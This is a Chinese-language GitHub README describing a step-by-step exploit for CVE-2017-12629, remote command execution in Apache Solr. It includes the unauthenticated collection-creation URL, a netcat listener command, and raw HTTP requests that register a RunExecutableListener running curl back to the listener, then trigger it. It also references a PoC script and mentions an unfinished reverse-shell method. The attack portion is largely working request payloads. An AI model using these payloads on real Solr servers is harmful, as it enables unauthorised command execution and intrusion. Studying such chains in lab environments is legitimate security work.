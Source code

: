 CVE-2017-12629利用的一些说明
--

### 说明

这个漏洞需要在分布式安装的情况下才能完整利用，但是我看到vulhub上的环境，他不是分布式搭建的solr,依然可以利用，我猜测大概是因为测试环境，我们事先是知道core的名字或者collection名字的，所以在大家使用vulhub上solr的漏洞环境，依然可以成功执行命令，但是在真实的环境中我们可能不知道core或者collection的名字，所以这个时候如果目标搭建的一个分布式solr,我们不知道现有的core或者collection名也没有关系，因为，分布式solr允许我们未授权创建一个collection。这就为后续的漏洞利用提供了条件。

### 利用流程

上面也提到了，vulhub上的漏洞环境是定制的，我们是提前知道core名的，所以那个攻击链是不完整的，我们这里，所以我这里贴出完整的攻击链

引用exp-db上的

- Step 1. Create a new collection:

`http://localhost:8983/solr/admin/collections?action=CREATE&name=newcollection&numShards=2`

![](assets/屏幕截图_9.png)

- Step 2. Set up a listener on any port by using netcat command "nc -lv 4444"

- Step 3. Add a new RunExecutableListener listener for the collection where "exe" attribute contents the name of running command ("/usr/bin/curl") and "args" attribute contents "http://localhost:4444/executed" value to make a request to the attacker's netcat listener:

```
POST /solr/newcollection/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://localhost:4444/executed"]
  }
}
```
![](assets/setp2.png)

- Step 4. Update "newcollection" to trigger execution of RunExecutableListener: 
  
```
POST /solr/newcollection/update HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 19

[{"id":"test"}]
```
![](assets/setp4.png)

- Step 5. You will see a request from the Solr server on your netcat listener. It proves that the curl command is executed on the server.


![](assets/setp5.png)

以上就是一个完整的命令执行流程

poc:apache_solr_cmd_exec_cve201712629

### 参数注入的方式利用漏洞


### 参考

环境搭建及利用参考：https://blog.csdn.net/qq_33020901/article/details/79131870

漏洞分析参考：https://paper.seebug.org/425/

### 注

反弹shell利用方式，还没有完善，留个坑